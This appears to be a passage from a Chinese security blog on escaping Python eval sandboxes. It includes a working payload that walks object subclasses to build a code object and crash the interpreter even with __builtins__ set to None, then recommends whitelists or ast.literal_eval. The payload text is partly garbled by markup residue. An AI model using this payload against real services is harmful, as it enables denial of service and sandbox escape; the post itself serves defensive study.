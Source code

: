 事实上，这种情况非常多，比如导入 os 模块，一般用来处理路径问题。所以说，遇到这种情况，完全可以列举大量的功能函数，来探测目标 object 的子类中是否含有一些危险的函数可以直接使用。

# 0x04 拒绝服务攻击 2

<hr>

同样，我们甚至可以绕过**builtins**为 None，造成一次拒绝服务攻击，Payload(来自老外 blog)如下：

```Python
	#!python
	>>> eval('(lambda fc=(lambda n: [c 1="c" 2="in" 3="().__class__.__bases__[0" language="for"][/c].__subclasses__() if c.__name__ == n][0]):fc("function")(fc("code")(0,0,0,0,"KABOOM",(),(),(),"","",0,""),{})())()', {"__builtins__":None})
```

运行上面的代码，Python 直接 crash 掉了，造成拒绝服务攻击。 原理是通过嵌套的 lambda 来构造一片代码段，即 code 对象。为这个 code 对象分配空的栈，并给出相应的代码字符串，这里是 KABOOM，在空栈上执行代码，会出现 crash。构造完成后，调用 fc 函数即可触发，其思路不可谓不淫荡。

# 0x05 总结

<hr>

从上面的内容我们可以看出，单单将内置模块置为空，是不够的，最好的机制是构造白名单，如果觉得比较麻烦，可以使用 ast.literal_eval 代替不安全的 eval。

## 参考资料：

- 【1】http://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
- 【2】http://drops.wooyun.org/web/7490
- 【3】http://stackoverflow.com/questions/3513292/python-make-eval-safe
